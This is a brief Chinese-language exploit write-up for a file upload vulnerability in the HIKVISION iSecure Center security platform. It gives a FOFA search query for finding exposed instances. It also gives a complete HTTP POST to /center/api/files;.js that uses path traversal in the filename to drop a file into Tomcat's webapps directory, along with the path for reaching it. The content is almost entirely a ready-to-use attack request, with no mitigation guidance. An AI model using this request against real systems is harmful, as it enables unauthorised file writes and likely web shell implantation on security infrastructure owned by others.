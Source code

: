 # HIKVISION iSecure Center综合安防管理平台文件上传

## 1.漏洞描述

HIKVISION iSecure Center综合安防管理平台存在文件上传漏洞

## 2.搜索语法

```plain
app="HIKVISION-iSecure-Center"
```

## 3.漏洞复现

```plain
POST /center/api/files;.js HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 251
Content-Type: multipart/form-data; boundary=e54e7e5834c8c50e92189959fe7227a4

--e54e7e5834c8c50e92189959fe7227a4
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hhh.txt"
Content-Type: application/octet-stream

hhh
--e54e7e5834c8c50e92189959fe7227a4--
```

响应包如下：

![image-20240613201208922](.\image-20240613201208922.png)

拼接路径访问：

/clusterMgr/hhh.txt;.js

![image-20240613201305546](.\image-20240613201305546.png)